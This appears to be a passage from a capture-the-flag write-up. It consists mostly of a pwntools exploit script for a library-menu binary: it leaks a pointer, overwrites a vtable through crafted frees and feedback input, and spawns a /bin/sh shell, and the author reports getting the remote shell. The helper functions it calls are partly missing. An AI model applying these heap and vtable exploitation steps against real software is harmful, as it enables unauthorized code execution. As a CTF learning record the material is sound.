 ```
	def borrow_book(index):
		print(target.recvuntil(b'5) Leave feedback'))
		target.sendline(b'3')
		print(target.recvuntil(b'get?'))
		target.sendline(str(index))
		print(target.recvuntil(b'3) Tear out page'))
		target.sendline(b'1')
		print(target.recvuntil(b'is: '))
		pointer = target.recvline().strip()
		print(pointer)
		return(int(pointer, 16))
		
	def return_book(ref_num):
		print(target.recvuntil(b'5) Leave feedback'))
		target.sendline(b'4')
		print(target.recvuntil(b'reference number'))
		target.sendline(hex(ref_num))

	def feedback(index, my_feedback):
		print(target.recvuntil(b'5) Leave feedback'))
		target.sendline(b'5')
		print(target.recvuntil(b'feedback:'))
		target.sendline(str(index))
		print(target.recvuntil(b'Enter feedback:'))
		target.sendline(my_feedback)
		

	#vtable overwrite. Note that this /bin/sh isn't actually necessary; it got added during debugging and wasn't hurting anything.
	donate_book(b'/bin/sh\x00' + p64(0x00401e30) * 5 + b'a' * (50 - (8 * 5)))

	list_books()

	pointer = borrow_book(0)

	print(hex(pointer))

	vtable_loc = pointer - (0x14f0 + i * 8)
	print(hex(vtable_loc))

	vtable_loc_off = vtable_loc - 0x8
	list_books()

	return_book(vtable_loc_off)
		
	return_book(pointer)

	feedback(0, '/bin/sh\x00')
	result = target.recvuntil(b'valued', timeout=1)
	print(result)
	if b'valued' in result:
		target.close()
		continue

	target.interactive()
	target.close()
```
My remote instance had died by the time I got back, so I simply reset the lower bound of my for loop to -130 and ran it to get my shell. Here is what it looked like.
